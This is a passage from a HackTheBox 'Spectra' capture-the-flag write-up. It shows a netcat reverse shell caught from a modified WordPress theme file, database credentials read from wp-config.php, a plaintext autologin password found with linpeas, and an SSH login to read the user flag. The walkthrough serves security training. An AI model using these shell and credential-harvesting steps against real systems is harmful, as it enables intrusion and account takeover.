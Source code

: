 ```http://spectra.htb/main/?author=1```
```

And browse to [http://spectra.htb/main/wp-content/themes/twentyseventeen/archive.php](http://spectra.htb/main/wp-content/themes/twentyseventeen/archive.php)

And we got shell:
```console
┌─[evyatar@parrot]─[/hackthebox/Spectra]
└──╼ $nc -lvp 1234
listening on [any] 1234 ...
connect to [10.10.14.14] from spectra.htb [10.10.10.229] 45880
Linux spectra 5.4.66+ #1 SMP Tue Dec 22 13:39:49 UTC 2020 x86_64 AMD EPYC 7401P 24-Core Processor AuthenticAMD GNU/Linux
 16:27:46 up  5:23,  0 users,  load average: 0.47, 0.16, 0.12
USER     TTY        LOGIN@   IDLE   JCPU   PCPU WHAT
uid=20155(nginx) gid=20156(nginx) groups=20156(nginx)
$ 
```

From ```/usr/local/share/nginx/html/main/wp-config.php``` we can get another credentials (Let's save them also):
```php
/** The name of the database for WordPress */
define( 'DB_NAME', 'dev' );

/** MySQL database username */
define( 'DB_USER', 'dev' );

/** MySQL database password */
define( 'DB_PASSWORD', 'development01' );

/** MySQL hostname */
define( 'DB_HOST', 'localhost' );

```

After running [linpeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS) we can see that on ```/etc``` directory we can find file that contains password of ```katie``` user:
```console
$ pwd
/etc/autologin
$ cat passwd
SummerHereWeCome!!
```

Le't login to ```katie``` user with ```SummerHereWeCome!!``` password:
```console
┌─[evyatar@parrot]─[/hackthebox/Spectra]
└──╼ $ ssh katie@10.10.10.229
Password: 
katie@spectra ~ $ cat user.txt
e89d27fe195e9114ffa72ba8913a6130
katie@spectra ~ $ 
```
